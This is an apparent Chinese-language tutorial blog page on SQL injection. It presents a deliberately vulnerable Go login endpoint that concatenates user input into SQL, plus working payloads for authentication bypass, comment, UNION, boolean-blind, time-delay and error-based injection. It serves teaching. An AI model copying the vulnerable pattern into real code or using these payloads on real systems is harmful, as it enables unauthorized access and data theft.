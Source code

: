 ```yaml
---
title: SQL Inject
createTime: 2025-1-27
author: ZQ
permalink: /network/webserver/sql/inject/
tags:
  - web
---
```


SQL注入（SQL Injection）是一种常见的网络安全漏洞，攻击者通过在应用程序的输入字段中插入恶意的SQL代码，来操控后台数据库，从而获取、篡改或删除数据。

<!-- more -->

##  原理

+ 输入验证不足：应用程序在处理用户输入时，没有对输入内容进行充分的验证和过滤，直接将用户输入拼接到SQL查询语句中。
+ 动态构造SQL语句：应用程序使用动态的方式构造SQL语句，将用户输入作为查询条件的一部分。
+ 执行恶意SQL代码：攻击者通过特制的输入，插入或修改SQL语句的结构，使其执行非预期的数据库操作。

## 实验

### `unsafe login`接口

使用`gin`启动一个`unsafe login` 接口，这里给出接口的实现。可以在[github](https://github.com/Zqzqsb/WebSecurityDemos/tree/main/SQL_Inject)查看完整示例。

```go
// Unsafe login method - vulnerable to SQL injection
func unsafeLogin(c *gin.Context) {
        username := c.PostForm("username")
        password := c.PostForm("password")

        // Simulate some delay for time-based injection detection
        if strings.Contains(strings.ToLower(username), "sleep") {
                time.Sleep(2 * time.Second)
        }

        // Dangerous: directly concatenating SQL statements
        var result map[string]interface{}
        // Changed the query format to make basic authentication bypass work
        sql := fmt.Sprintf("SELECT * FROM users WHERE username='%s' AND password='%s'", username, password)

        // Log the SQL query for demonstration
        log.Printf("Executing SQL: %s", sql)

        err := db.Raw(sql).Scan(&result).Error

        if err != nil {
                // Return error message for error-based injection demonstration
                c.JSON(http.StatusBadRequest, gin.H{
                        "message": fmt.Sprintf("Login failed with error: %v", err),
                })
                return
        }

        if len(result) > 0 {
                c.JSON(http.StatusOK, gin.H{
                        "message": "Login successful",
                        "user":    result,
                })
        } else {
                c.JSON(http.StatusUnauthorized, gin.H{
                        "message": "Login failed: Invalid credentials",
                })
        }
}
```


应用程序的登录查询如下：

```sql
SELECT * FROM users WHERE username = '输入的用户名' AND password = '输入的密码';
```


### 基础认证绕过

基础认证绕过是一种最简单的SQL注入攻击方式，攻击者通过构造特定的输入，使SQL查询条件始终为真，从而绕过身份验证。

当攻击者在用户名或密码字段中输入`' OR '1'='1`时，SQL语句变为：

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '';
```

由于`'1'='1'`始终为真，整个WHERE条件成立，数据库将返回所有用户记录，通常会导致攻击者成功登录。

###  注释型注入

注释型

注入利用SQL的注释符号（如`--`）截断原有的SQL语句，忽略后续的条件，从而改变查询

攻击者在用户名字段输入`admin'--`，SQL语句变为：

```sql
SELECT * FROM users WHERE username = 'admin'--' AND password = '';
```

这样，密码验证被绕过，攻击者以`admin`用户身份登录。

### UNION查询注入

UNION查询注入通过使用SQL的`UNION`操作符，将恶意查询的结果与原始查询结果合并，攻击者可以借此获取数据库中其他表或数据的信息。

```sql
SELECT id, username, password, role FROM users WHERE username = 'admin' UNION SELECT 1 as id, 'hacker' as username, 'pwned' as password, 'admin' as role --';
```

这将返回两条记录：一条是`admin`用户的真实记录，另一条是攻击者注入的虚假记录。攻击者可以利用这种方式获取敏感信息或提升权限。

### 布尔盲注

布尔盲注在应用程序不直接显示数据库错误信息时使用，攻击者通过构造不同的条件，观察应用程序响应的真假情况，逐步推断出数据库的信息。

假设应用程序根据SQL查询的结果显示不同的页面内容。攻击者输入`admin' AND (SELECT CASE WHEN (1=1) THEN 1 ELSE 0 END)='1`，SQL语句变为：

```sql
SELECT * FROM users WHERE username = 'admin' AND (SELECT CASE WHEN (1=1) THEN 1 ELSE 0 END)='1';
```


###  时间延迟注入

攻击者输入`admin' AND (SELECT CASE WHEN (1=1) THEN sqlite3_sleep(2000) ELSE 1 END)='1`，SQL语句变为：

```sql
SELECT * FROM users WHERE username = 'admin' AND (SELECT CASE WHEN (1=1) THEN sqlite3_sleep(2000) ELSE 1 END)='1';
```

### 报错注入

报错注入通过诱使数据库生成错误信息，攻击者可以利用这些错误信息获取数据库的结构和其他敏感信息。

假设应用程序在查询失败时会显示数据库错误信息。攻击者输入`admin' AND (SELECT CASE WHEN (1=1) THEN CAST('a' AS INTEGER) ELSE 1 END)='1`，SQL语句变为：

```sql
SELECT * FROM users WHERE username = 'admin' AND (SELECT CASE WHEN (1=1) THEN CAST('a' AS INTEGER) ELSE 1 END)='1';
```

由于`CAST('a' AS INTEGER)`在SQL中会导致类型转换错误，数据库会返回错误信息。攻击者可以通过分析这些错误信息，了解数据库的结构和类型，进一步进行攻击。
